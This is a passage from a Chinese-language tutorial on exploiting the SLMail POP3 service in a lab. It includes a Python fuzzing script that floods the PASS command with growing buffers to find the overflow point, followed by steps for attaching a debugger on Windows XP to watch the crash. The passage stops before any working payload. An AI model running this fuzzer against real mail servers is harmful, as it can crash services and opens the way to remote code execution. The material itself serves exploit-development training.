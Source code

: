 ### 0x02 POP3 
网络协议何止一种，当我遇到不熟悉的网络协议的时候，可以使用 wireshark 去抓包，去分析，了解这个我们原本不熟悉的协议。当然我们现在已经知道 SLMali 中 POP3 协议 的 `PASS` 命令是存在的，并且存在缓存区溢出的。
 
使用 `pass ` 对 XP SLMail 100 端口发送数据。但是要发生缓冲区溢出，意味着我们需要对其发送大量的数据，而为了搞清楚到底多大的数据请求会导致其缓冲区溢出，我们需要不断的迭代累加的去发起请求，以次获得最接近的那个临界值，那么，现在从一个简单的 02.py 脚本开始

##### 02.py

```
#!/usr/bin/python

import socket

buffer = ["A"]
counter = 100
while len(buffer) <= 50:
	buffer.append("A" *counter)
	counter = counter + 200

for string in buffer:
	print "Fuzzing PASS with %s bytes" % len(string)
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	connect = s.connect(('192.168.1.12', 110))
	s.recv(1024)
	s.send('USER test'+ '\r\n')
	s.recv(1024)
	s.send('PASS ' + string + '\r\n')
	s.send('QUIT\r\n')
	s.close() 
```

> 当然，如果我们已经发送了大量的弹出数据但是依旧没有发生溢出，这时我们可以放弃对这个参数的模糊测试了。



---
#### Debugger
数据一旦发送，便可以打开 XP 中的 Debugger 工具观察服务器状态。

![Dubugger](http://upload-images.jianshu.io/upload_images/1571420-f9f0948ccd1118ce.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

我们可在 `file>open` 直接打开一个 `.exe` 文件进行静态调试，也可以 `file>Attach` 选择一个正在运行的程序进行动态调试。

##### Attach


![Attach](http://upload-images.jianshu.io/upload_images/1571420-22627775f9d12909.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

我们选择 `Attach` 并对 `SLMail` 这个程序进行 Attach。但一个正在运行的程序被 `Attach` 后便会暂停运行，为了观察我们需要让其继续运行起来。


![run again](http://upload-images.jianshu.io/upload_images/1571420-f22ee3dfd71f9015.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

##### 正式发起数据请求
现在我们通过 Kali 运行 02.py 脚本对其发送大量数据
